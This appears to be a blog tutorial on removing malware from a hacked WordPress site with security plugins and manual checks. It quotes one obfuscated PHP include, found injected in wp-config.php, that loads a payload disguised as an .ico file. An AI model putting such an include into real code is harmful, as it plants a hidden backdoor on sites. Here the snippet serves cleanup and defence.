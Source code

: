 
## Clean the Woprdpress installation
Let's start cleaning WordPress from any malicious files/code. You can either do this manually (if you really know what you are doing), or through a plugin. I used [Wordfence](https://wordpress.org/plugins/wordfence/), [Sucuri](https://wordpress.org/plugins/sucuri-scanner/) and [Quttera](https://wordpress.org/plugins/quttera-web-malware-scanner/), as well as manually checking the WordPress files' integrity.

### Install Wordfence
Install and activate [Wordfence](https://wordpress.org/plugins/wordfence/) and select the Scan tab. Click Manage Scan 

{{< figure src="scan-type.jpg" size="300x" >}}

and select "High Sensitivity" as the Basic Scan Type Option.

{{< figure src="scan-type-option.jpg" >}}

Click "Back to Scan" and then start the scan by clicking the "Start New Scan" button.

{{< figure src="start-new-scan.jpg" >}}

Depending on the size of your wordpress installation and the resources of your host you might have to wait anywhere from a few minutes to a few hours. Keep this tab open, relax, and go grab a coffee.

When the scan is finished, you should see something like the screenshot below. Clearly, my website has been hacked and is full of malicious files, so let's clean it up! 

{{< figure src="scan-results.jpg" >}}

First, take a backup. Connect to cpanel, zip the folder where you have the wordpress installation and download that to your computer.

Now let's clean the mess. Click "Delete all Deletable Files" and "Repair all Repairable Files". You might notice that not all files have been fixed. Go through remaining files one by one and fix. Example: wp-config.php had this:
```php
<?php
/*6e2b3*/

@include "\057home\057vict\157ras/\162igou\166assi\141.com\057wp-i\156clud\145s/js\057crop\057.593\0626198\056ico";

/*6e2b3*/
```
which I had to manually clean. Once you are done, run the scan again to make sure eveything has been cleaned.

### Install Sucuri
Donwload, install and activate [Sucuri](https://wordpress.org/plugins/sucuri-scanner/) to check for WordPress integrity. Click Sucuri Security -> Dashboard and look for the WordPress Integrity window. Sucuri warms me that Core WordPress files were modified, however inspecting them one by one, you will see that those are the files added by the Wordfence plugin. Select both and click Mark as Fixed.

{{< figure src="sucuri-results.jpg" >}}
